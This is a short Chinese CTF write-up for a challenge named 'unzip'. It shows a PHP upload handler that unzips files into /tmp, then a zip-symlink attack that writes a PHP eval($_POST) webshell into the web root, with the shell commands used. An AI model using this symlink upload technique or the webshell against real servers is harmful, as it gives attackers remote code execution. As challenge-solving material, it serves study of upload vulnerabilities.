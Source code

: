 tags:: [[CTF/Zip]]

- # unzip
	- 上传zip，看到`upload.php`源码
		- ```php
		  <?php
		  error_reporting(0);
		  highlight_file(__FILE__);
		  
		  $finfo = finfo_open(FILEINFO_MIME_TYPE);
		  if (finfo_file($finfo, $_FILES["file"]["tmp_name"]) === 'application/zip'){
		      exec('cd /tmp && unzip -o ' . $_FILES["file"]["tmp_name"]);
		  };
		  ```
	- 我们可以使用zip创建软链接并向软链接中写入文件
	- 首先考虑将`/var/www/html`文件夹软链接到`/tmp`文件夹中
		- ```shell
		  # cube @ fedora in /tmp .venv [10:33:12] 
		  $ ln -s /var/www/html/ html          
		  (.venv) 
		  # cube @ fedora in /tmp .venv [10:33:23] C:130
		  $ zip --symlinks archive.zip html
		  ```
		- 上传archive.php即可
	- 然后将`html/test.php`写入archive.zip
		- ```shell
		  # cube @ fedora in /tmp .venv [10:36:43] C:1
		  $ echo '<?php eval($_POST["data"]);?>' | sudo tee html/test.php
		  [sudo] cube 的密码：
		  <?php eval($_POST["data"]);?>
		  (.venv) 
		  # cube @ fedora in /tmp .venv [10:36:49] 
		  $ zip archive.zip html/test.php
		  updating: html/test.php (stored 0%)
		  ```
	- 最后访问`test.php`即可得到webshell